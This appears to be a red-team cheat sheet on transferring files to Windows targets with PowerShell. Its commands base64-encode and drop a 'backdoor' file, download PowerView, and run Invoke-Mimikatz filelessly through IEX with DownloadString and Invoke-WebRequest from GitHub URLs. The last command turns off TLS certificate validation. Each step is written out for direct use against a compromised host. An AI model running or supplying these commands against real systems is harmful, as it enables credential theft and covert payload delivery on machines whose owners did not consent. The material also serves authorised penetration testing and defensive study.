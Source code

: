
## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP download

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
